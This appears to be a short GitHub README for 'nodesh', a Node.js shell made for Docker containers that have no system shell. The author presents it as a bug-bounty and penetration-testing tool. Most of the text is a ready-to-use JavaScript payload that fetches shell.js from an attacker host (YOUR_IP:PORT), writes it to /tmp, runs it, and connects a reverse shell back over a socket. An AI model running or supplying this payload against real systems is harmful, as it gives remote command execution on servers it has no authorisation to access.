# nodesh
During a bug bounty hunt, I came across a site hosted inside a Docker container with no shell inside whatsoever, only the technology stack (in this case, Node.js) that this site was powered by. Because Node has some powerful file system enumeration APIs, I was able to write a simple shell from scratch using them, and to speed up development, decided to open source it.

Fellow ethical hackers and/or penetration testers: This tool is here for those of you who find something similar. No shell on the target, no problem; simply use the following payload to drop this and send it back:

```javascript
(function() { const { URL } = require('url'); const http = require('http'); const dest = "/tmp/shell.js"; const url = "http://YOUR_IP:PORT/shell.js"; const nodebin = "/path/to/node"; const parsedUrl = new URL(url); const request = http.get(url, (response) => { if (response.statusCode !== 200) { console.log(`Download failed with status code ${response.statusCode}`); return; }; const file = fs.createWriteStream(dest); response.pipe(file);  file.on('finish', () => { console.log("Shell dropped successfully"); file.close(); (function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn(nodebin, [dest]); var client = new net.Socket(); client.connect(PORT, "YOUR_IP", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})(); }); file.on('error', (err) => { fs.unlink(dest, () => console.log(`Error downloading file: ${err}`)); }); }); } )();
```
